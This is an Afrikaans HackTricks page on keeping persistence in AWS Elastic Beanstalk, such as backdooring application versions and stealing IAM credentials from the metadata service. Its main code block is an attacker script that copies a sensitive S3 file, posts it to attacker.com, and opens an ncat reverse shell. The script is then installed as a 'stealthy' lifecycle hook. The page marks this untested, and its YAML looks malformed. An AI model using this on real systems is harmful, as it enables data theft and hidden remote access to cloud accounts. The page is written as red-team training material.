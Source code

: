 # AWS - Elastic Beanstalk Persistensie

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Elastic Beanstalk

Vir meer inligting, kyk:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

### Persistensie in Instansie

Om persistensie binne die AWS rekening te handhaaf, kan 'n **persistensie-meganisme binne die instansie bekendgestel word** (cron job, ssh sleutel...) sodat die aanvaller toegang kan verkry en IAM rol **akkrediteer van die metadata diens** kan steel.

### Agterdeur in Weergawe

'n Aanvaller kan die kode binne die S3 repo agterdeur sodat dit altyd sy agterdeur en die verwagte kode uitvoer.

### Nuwe agterdeur weergawe

In plaas daarvan om die kode op die werklike weergawe te verander, kan die aanvaller 'n nuwe agterdeur weergawe van die toepassing ontplooi.

### Misbruik van Aangepaste Hulpbron Levensiklus Hake

{% hint style="info" %}
TODO: Toets
{% endhint %}

Elastic Beanstalk bied levensiklus hake wat jou toelaat om aangepaste skripte tydens instansie voorsiening en beëindiging uit te voer. 'n Aanvaller kan **'n levensiklus hake konfigureer om periodiek 'n skrip uit te voer wat data eksfiltreer of toegang tot die AWS rekening handhaaf**.
```bash
bashCopy code# Attacker creates a script that exfiltrates data and maintains access
echo '#!/bin/bash
aws s3 cp s3://sensitive-data-bucket/data.csv /tmp/data.csv
gzip /tmp/data.csv
curl -X POST --data-binary "@/tmp/data.csv.gz" https://attacker.com/exfil
ncat -e /bin/bash --ssl attacker-ip 12345' > stealthy_lifecycle_hook.sh

# Attacker uploads the script to an S3 bucket
aws s3 cp stealthy_lifecycle_hook.sh s3://attacker-bucket/stealthy_lifecycle_hook.sh

# Attacker modifies the Elastic Beanstalk environment configuration to include the custom lifecycle hook
echo 'Resources:
AWSEBAutoScalingGroup:
Metadata:
AWS::ElasticBeanstalk::Ext:
TriggerConfiguration:
triggers:
- name: stealthy-lifecycle-hook
events:
- "autoscaling:EC2_INSTANCE_LAUNCH"
- "autoscaling:EC2_INSTANCE_TERMINATE"
target:
ref: "AWS::ElasticBeanstalk::Environment"
arn:
Fn::GetAtt:
- "AWS::ElasticBeanstalk::Environment"
- "Arn"
stealthyLifecycleHook:
Type: AWS::AutoScaling::LifecycleHook
Properties:
AutoScalingGroupName:
Ref: AWSEBAutoScalingGroup
LifecycleTransition: autoscaling:EC2_INSTANCE_LAUNCHING
NotificationTargetARN:
Ref: stealthy-lifecycle-hook
RoleARN:
Fn::GetAtt:
- AWSEBAutoScalingGroup
- Arn' > stealthy_lifecycle_hook.yaml

# Attacker applies the new environment configuration
aws elasticbeanstalk update-environment --environment-name my-env --option-settings Namespace="aws:elasticbeanstalk:customoption",OptionName="CustomConfigurationTemplate",Value="stealthy_lifecycle_hook.yaml"
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
